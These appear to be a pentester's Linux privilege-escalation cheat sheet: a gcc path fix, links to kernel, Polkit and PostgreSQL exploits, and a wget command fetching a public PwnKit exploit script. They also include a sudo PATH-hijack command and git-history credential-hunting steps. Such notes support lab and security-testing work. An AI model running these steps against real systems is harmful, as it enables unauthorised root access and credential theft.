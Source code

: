 [https://programmerah.com/gcc-error-trying-to-exec-cc1-execvp-no-such-file-or-directory-27405/](https://programmerah.com/gcc-error-trying-to-exec-cc1-execvp-no-such-file-or-directory-27405/)

> gcc: error trying to exec 'cc1': execvp: No such file or directory
> 

```bash
find /usr/ -name "*cc1*"
export PATH=$PATH:/usr/libexec/gcc/x86_64-redhat-linux/4.8.2/
```

### Kernel 3.0.0 exploit mempodipper

[https://www.exploit-db.com/exploits/18411](https://www.exploit-db.com/exploits/18411)

Not working? Use this.

[http://git.zx2c4.com/CVE-2012-0056/plain/mempodipper.c](http://git.zx2c4.com/CVE-2012-0056/plain/mempodipper.c)

### Polkit

```bash
wget https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py
```

### Postgresql authenticated arbitrary command execution

[https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)

### No Full Path specified

```bash
sudo PATH=/tmp:$PATH /opt/cleanup.sh
```

### Git config privilege escalation

Run linpeas.sh

```bash
cat .linpeas.txt | grep Github
```

Or

```bash
find / -name ".git" 2> /dev/null
```

CD to the path with “.git”

```bash
git log
```

Then git show the commit hash
